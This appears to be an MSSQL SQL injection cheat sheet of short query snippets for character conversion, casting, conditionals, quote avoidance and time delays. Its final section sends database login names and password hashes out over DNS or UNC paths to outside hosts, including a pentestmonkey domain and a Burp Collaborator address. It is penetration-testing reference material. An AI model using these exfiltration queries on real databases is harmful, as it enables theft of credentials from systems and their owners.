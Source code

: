 ## ASCII Value -> Char
```
SELECT char(0x41) — returns A
```

## Char -> ASCII Value
```
SELECT ascii('A') – returns 65
```

## Casting
```
SELECT CAST('1' as int);
SELECT CAST(1 as char)
```

## String Concatenation
```
SELECT 'A' + 'B' – returns AB
```

## If Statement
```
IF (1=1) SELECT 1 ELSE SELECT 2 — returns 1
```

## Case Statement
```
SELECT CASE WHEN 1=1 THEN 1 ELSE 2 END — returns 1
```

## Avoiding Quotes
```
SELECT char(65)+char(66) — returns AB
```

## Time Delay
```
WAITFOR DELAY '0:0:5' — pause for 5 seconds
```

## Make DNS Requests
```
-- nonpriv, works on 2000
declare @host varchar(800);
select @host = name FROM master..syslogins;
exec('master..xp_getfiledetails "\' + @host + 'c$boot.ini"');

-- priv, works on 2005– NB: Concatenation is not allowed in calls to these SPs, hence why we have to use @host.  Messy but necessary.
declare @host varchar(800);
select @host = name + '-' + master.sys.fn_varbintohexstr(password_hash) + '.2.pentestmonkey.net' from sys.sql_logins;
exec('xp_fileexist "\' + @host + 'c$boot.ini"');

-- priv. clean syntax.  should ship a hash too.
select a.* from OPENROWSET (BULK '\\gueqm34j5yfbmt27l0aa4pedi4ovck.burpcollaborator.net\evil\evil.xml',SINGLE_BLOB) as a

– Also check out theDNS tunnel feature of sqlninja
```